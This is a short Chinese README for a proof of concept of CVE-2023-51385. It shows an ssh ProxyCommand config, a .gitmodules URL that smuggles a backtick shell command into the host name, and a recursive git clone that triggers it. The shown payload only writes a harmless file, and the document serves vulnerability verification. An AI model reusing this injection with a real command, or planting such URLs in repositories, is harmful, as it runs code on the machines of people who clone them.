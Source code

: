 ## 验证CVE-2023-51385

### 首先需要在`~/.ssh/config`增加如下

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

`.gitmodules`文件语句中存在命令注入

```
url = ssh://`echo helloworld > ../cve.txt`foo.example.com/bar
```

配置完成后,执行下面的指令触发

```
git clone https://github.com/zls1793/CVE-2023-51385_test --recurse-submodules
```

如果成功执行将会在~目录下生成cve.txt文件

详细信息见这篇博客:

https://vin01.github.io/piptagole/ssh/security/openssh/libssh/remote-code-execution/2023/12/20/openssh-proxycommand-libssh-rce.html

